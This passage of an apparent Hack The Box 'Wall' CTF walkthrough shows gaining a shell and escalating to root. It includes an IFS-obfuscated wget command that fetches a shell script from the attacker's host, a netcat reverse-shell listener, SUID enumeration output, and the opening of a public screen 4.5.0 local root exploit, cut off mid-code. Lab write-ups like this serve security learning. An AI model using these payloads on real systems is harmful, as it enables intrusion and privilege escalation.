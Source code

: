 ```console
IFS=];b=wget]10.10.14.75:8080/htb/wall/shell.sh]-P]/tmp;$b
```
and we wind up with a shell back on our listener:

```console
root@endeavour:~/htb/wall# nc -lvnp 42069
listening on [any] 42069 ..
connect to [10.10.14.75] from (UNKNOWN) [10.10.10.157] 
```
Sweet - so who are we? 

```uid=33(www-data) gid=33(www-data) groups=33(www-data),6000(centreon)```

In poking around, we do not have enough rights to get to the user flag. But I am able to get linenum over:

```console
root@endeavour:~/htb/wall# nc -lvnp 42069 < linenum.sh
listening on [any] 42069 ..
connect to [10.10.14.75] from (UNKNOWN) [10.10.10.157] 
```

Again to save space, I will cut out a lot of the output which I poured over for a more than a few hours to find something to priv esc:

```console
[-] SUID files:
-rwsr-xr-x 1 root root 43088 Oct 15  2018 /bin/mount
-rwsr-xr-x 1 root root 64424 Mar 10  2017 /bin/ping
-rwsr-xr-x 1 root root 1595624 Jul  4 00:25 /bin/screen-4.5.0
-rwsr-xr-x 1 root root 30800 Aug 11  2016 /bin/fusermount
-rwsr-xr-x 1 root root 44664 Mar 22  2019 /bin/su
-rwsr-xr-x 1 root root 26696 Oct 15  2018 /bin/umount
-rwsr-xr-x 1 root root 44528 Mar 22  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 59640 Mar 22  2019 /usr/bin/passwd
-rwsr-xr-x 1 root root 75824 Mar 22  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 18448 Mar 10  2017 /usr/bin/traceroute6.iputils
-rwsr-xr-x 1 root root 76496 Mar 22  2019 /usr/bin/chfn
-rwsr-xr-x 1 root root 40344 Mar 22  2019 /usr/bin/newgrp
-rwsr-xr-x 1 root root 149080 Jan 18  2018 /usr/bin/sudo
-rwsr-xr-- 1 root messagebus 42992 Jun 10 21:05 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-r-sr-xr-x 1 root root 13628 Aug 28 14:41 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
-r-sr-xr-x 1 root root 14320 Aug 28 14:41 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
```

Screen v 4.5 has a local priv esc vulnerability: https://www.exploit-db.com/exploits/41154

```console
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
```